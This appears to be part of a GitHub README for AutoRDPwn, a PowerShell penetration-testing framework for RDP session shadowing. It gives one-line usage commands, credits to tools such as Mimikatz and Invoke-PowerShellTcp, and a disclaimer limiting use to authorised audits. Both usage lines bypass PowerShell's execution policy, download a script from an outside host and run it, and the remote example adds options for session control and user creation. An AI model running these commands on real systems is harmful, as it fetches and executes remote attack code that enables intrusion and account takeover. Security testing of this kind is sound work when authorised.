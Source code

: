 **Local execution on one line:**
```
powershell -ep bypass "cd $env:temp ; iwr https://darkbyte.net/autordpwn.php -outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1"
```

**Example of remote execution on a line:**
```
powershell -ep bypass "cd $env:temp ; iwr https://darkbyte.net/autordpwn.php -outfile AutoRDPwn.ps1 ; .\AutoRDPwn.ps1 -admin -nogui -lang English -option 4 -shadow control -createuser"
```


**The detailed guide of use can be found at the following link:**

https://darkbyte.net/autordpwn-la-guia-definitiva


# Screenshots
![AutoRDPwn1_en](https://raw.githubusercontent.com/JoelGMSec/AutoRDPwn/master/Resources/Screenshots/AutoRDPwn1_en.PNG)
![AutoRDPwn2_en](https://raw.githubusercontent.com/JoelGMSec/AutoRDPwn/master/Resources/Screenshots/AutoRDPwn2_en.PNG)


# License
This project is licensed under the GNU 3.0 license - see the LICENSE file for more details.


# Credits and Acknowledgments
This framework has been created and designed from scratch by Joel Gámez Molina // @JoelGMSec

Some modules use third-party code, scripts, and tools, particularly:

• Chachi-Enumerator by **Luis Vacas** -> https://github.com/Hackplayers/PsCabesha-tools

• Invoke-Phant0m by **Halil Dalabasmaz** -> https://github.com/hlldz/Invoke-Phant0m

• Invoke-PowerShellTcp by **Nikhil "SamratAshok" Mittal** -> https://github.com/samratashok/nishang

• Invoke-TheHash by **Kevin Robertson** -> https://github.com/Kevin-Robertson/Invoke-TheHash

• Mimikatz by **Benjamin Delpy** -> https://github.com/gentilkiwi/mimikatz

• PsExec by **Mark Russinovich** -> https://docs.microsoft.com/en-us/sysinternals/downloads/psexec

• RDP Wrapper by **Stas'M Corp.** -> https://github.com/stascorp/rdpwrap

• SharpRDP by **Steven F** -> https://github.com/0xthirteen/SharpRDP

And many more, that do not fit here.. Thanks to all of them and their excellent work.


# Contact
This software does not offer any kind of guarantee. Its use is exclusive for educational environments and / or security audits with the corresponding consent of the client. I am not responsible for its misuse or for any possible damage caused by it.
